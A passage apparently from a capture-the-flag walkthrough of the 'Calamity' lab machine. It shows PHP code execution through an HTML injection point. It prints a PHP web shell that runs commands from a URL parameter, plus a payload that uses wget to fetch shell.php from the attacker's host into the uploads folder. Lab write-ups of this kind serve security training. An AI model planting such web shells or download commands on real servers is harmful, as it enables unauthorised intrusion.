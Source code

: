 we find that the html can be executed. so lets test with php.

```sh
<?php system("ls");?>
```

![](/Linux/Linux-Hard/Calamity/Screenshots/php.png)

php is also executed now we can upload a shell their was an Upload folder and exetute it from their as `shell.php`

```sh
<?php system($_GET["cmd"]); ?>
```

Then we upload the shell to the uploads folder by but first we set a listner 


```sh
<?php system("wget http://10.10.14.15:8000/shell.php -P uploads;"); ?>
```

![](/Linux/Linux-Hard/Calamity/Screenshots/listerner.png)

then when we go to the uploads folder and execute the cmd we get that it has been uploaded 

![](/Linux/Linux-Hard/Calamity/Screenshots/whoami.png)
